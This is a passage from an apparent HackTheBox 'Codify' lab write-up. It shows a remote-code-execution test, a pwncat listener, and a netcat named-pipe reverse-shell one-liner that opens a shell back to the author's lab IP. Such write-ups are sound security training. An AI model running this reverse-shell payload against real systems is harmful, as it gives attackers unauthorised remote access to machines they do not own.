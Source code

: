 ```
}
```

We can change the command at the end from `touch pwned` to `whoami` to test it.

![RCE](images/htb/box/codify/rce.png)

Success, now lets setup a reverse shell.

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host 10.10.***.*** 4444 -m linux
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

I go to RevShells to craft a payload to send to the server, using my HackTheBox private IP and port 4444.

I use the following payload: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.***.*** 4444 >/tmp/f`

and I get a shell!

```
[16:42:21] 10.10.11.239:51968: registered new host w/ db                               
           listener: 10.10.***.***:4444: linux session from 10.10.11.239:51968            
           established
```
